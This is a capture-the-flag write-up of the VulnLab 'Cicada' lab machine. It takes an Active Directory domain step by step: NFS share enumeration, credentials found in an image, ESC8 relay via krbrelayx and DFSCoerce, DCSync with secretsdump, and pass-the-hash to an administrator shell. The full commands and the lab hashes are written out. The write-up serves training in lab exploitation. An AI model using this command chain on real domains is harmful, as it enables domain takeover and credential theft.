

# Cicada

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Cicada** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 389,9389,53,445,49667,49671,59847,3269,139,80,2049,5985,49678,49664,593,59873,59811,464 --min-rate=1000 10.10.88.205
```



Now let’s enumerate the NFS

```bash
showmount -e 10.10.88.205
```


> Notice that we have a profiles mount
> 

Now let’s go and mount it

```bash
sudo mount -t nfs 10.10.88.205:/profiles Mount
```


now let’s see what is in the mount directory

```bash
tree .
```


Now let’s open the marketing cicada from the user directory

```bash
eog marketing.png
```


> Notice that the cicada contains a password
username: Rosie.Powell
password: Cicada123
> 

Now let’s go and try it

```bash
nxc smb bruno.vl -u 'Rosie.Powell' -p 'Cicada123'
```


> Notice that it say STATUS_NOT_SUPPORTED which mean that the NTLM authentication is disabled
> 

So let’s try again with the Kerberos auth 

```bash
nxc smb cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k
```


and we are authenticated

So let’s go and enumerate the certificate service

First let’s get a TGT for the user Rosie

```bash
impacket-getTGT cicada.vl/Rosie.Powell:'Cicada123' -dc-ip 10.10.88.205
```


Now let’s export the TGT

```bash
export KRB5CCNAME=Rosie.Powell.ccache
```


Now let’s find the CA Templates

```bash
certipy-ad find -k -no-pass -debug -dc-ip dc-jpq225.cicada.vl -ns 10.10.88.205
```


Now let’s go and get the output

```bash
cat 20250330050004_Certipy.txt | grep -i ESC8 -b50
```


> Notice that there is a template that is vulnerable to ESC8 which will help us relaying the Web remotely
> 

Now let’s start KRB Relay

```bash
python3 krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp -smb2support --adcs --template DomainController -debug
```


Now let’s create a domain joined machine

```bash
bloodyAD -u 'rosie.powell' -p 'Cicada123' --host dc-jpq225.cicada.vl -k -d 'cicada.vl' add dnsRecord 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' 10.8.5.233
```


Now let’s relay

```bash
python3 dfscoerce.py -k -no-pass -dc-ip dc-jpq225.cicada.vl 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc-jpq225.cicada.vl
```


Now let’s go back and check if we go anything


And we did so let’s go and try to authenticate to get the machine hash

```bash
certipy-ad auth -pfx 'unknown3732$.pfx' -dc-ip 10.10.88.205
```


Now let’s go to perform DCSync and retrieve all the hashes

First let’s get a TGT for the Machine Account

```bash
impacket-getTGT cicada.vl/'dc-jpq225$':'' -dc-ip 10.10.88.205 -hashes :9323a945f6606ac6b44263f00218cfab
```


Now let’s export it

```bash
export KRB5CCNAME=dc-jpq225$.ccache
```


Now let’s DCSync

```bash
impacket-secretsdump -k -no-pass dc-jpq225.cicada.vl
```


Now let’s request a ticket for the administrator

```bash
impacket-getTGT cicada.vl/administrator:'' -dc-ip 10.10.88.205 -hashes :85a0da53871a9d56b6cd05deda3a5e87
```


now let’s export his ticket

```bash
export KRB5CCNAME=administrator.ccache
```


Now let’s try to wmi to the machine

```bash
impacket-wmiexec -k -no-pass dc-jpq225.cicada.vl
```


Now let’s go to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Cicada** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX